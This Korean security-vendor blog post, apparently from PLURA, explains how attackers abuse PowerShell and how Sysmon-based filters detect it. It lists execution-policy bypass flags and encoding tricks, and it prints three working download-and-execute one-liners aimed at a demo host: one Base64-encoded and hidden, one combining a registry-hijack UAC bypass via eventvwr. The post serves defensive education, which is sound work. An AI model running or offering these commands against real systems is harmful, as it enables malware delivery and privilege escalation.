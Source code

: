 ![ps-2-1](https://github.com/user-attachments/assets/c2ab6807-0a9b-4162-98b6-7128c1259446)---
date: 2020-05-12T00:03:00
description: 
featured_image: 
tags: 
title: "PowerShell을 이용한 공격"
---

![2020-05-12](https://github.com/user-attachments/assets/a90db7c2-5c10-4f7e-b9d4-20c828b5a299)

## PowerShell

시스템 관리 및 자동화 등을 목적으로 설계된 명령줄 셸 및 스트립팅 언어입니다.
Windows Vista 이후 기본 탑재되어 공격자의 도구로 많이 사용되고 있습니다.

### 1. 실행 정책 (Execution Policy)
기본적으로 Microsoft는 PowerShell 스크립트 실행을 제한합니다.
그러나 공격자는 이를 쉽게 우회할 수 있습니다.
> **우회 Flags**
> -ExecutionPolicy/-EP Bypass
> -ExecutionPolicy/-EP Unrestricted
> -noprofile or -nop
> *Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정한 Profile도 무시할 수 있습니다.

### 2. 다운로드
PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행합니다.
> 악의적인 PowerShell 스크립트 명령줄에서 자주 사용되는 명령입니다.
> New-Object: .NET Framework의 인스턴스를 만듭니다.
> System.Net.Webclient: 원격 리소스와의 데이터 송수신에 사용됩니다.
> DownloadString: 원격지에서 IEX가 실행할 메모리 버퍼로 내용을 다운로드합니다
> DownloadFile: 원격지에서 로컬 파일로 컨텐츠를 다운로드합니다.
> IEX/Invoke-Expression: 로컬 컴퓨터에서 명령을 실행합니다.
> ICM/Invoke-Command: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

### 3. 인코딩
- 인코딩은 PowerShell Commnad를 사용자 및 특정 로그에서 숨길 수 있는 한 가지 방법입니다.
- Base64 인코딩을 사용한 경우 CommandLine의 길이가 길어집니다.
- 인코딩 또한 우회되더라도, 장문의 명령어를 통해 불러온 PowerShell이라면 의심해볼 필요가 있습니다. ( > 500 is odd)

### 4. DLL
- 악의적인 행동을 탐지하려면, 의심스러운 calls의 조합을 찾아야 합니다.
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 이러한 Dll이 호출되고 있는지 모니터링합니다.
*sysmon id 7 (ImageLoaded)을 통해 확인 가능합니다.
System.Management.Automation.Dll
System.Management.Automation.ni.Dll
System.Reflection.Dll

### 5. PLURA에서 PowerShell 악성 행위 탐지
*Sysmon 설치 필수
설치 방법: https://docs.plura.io/ko/agents/edr/windows/sysmon 
![ps-0-1](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

**악성 파일 실행**
PowerShell 우회 및 공격자 서버로부터 파일 다운로드 행위 발생
![ps-2-1](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**필터 탐지 > 호스트보안**
PLURA에서는 이런 악의적인 공격을 Sysmon을 활용하여 필터 탐지하고 있습니다.

> 공격 명령어
> # powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

> # cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xp
> ZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU
> 3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

> # cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe

악성 PowerShell 스크립트는 주로 email 첨부 파일의 다운로더로 사용되거나 침입 후 원격 컴퓨터에서 코드를 실행할 수 있습니다.
PowerShell 위협에 대처하려면 보다 정교한 탐지 방법과 지속적인 모니터링 등의 노력이 필요합니다.


## 참조
- https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf
- https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en
- https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651

## 관련 기사, 보안뉴스
- https://bit.ly/2V99SLF

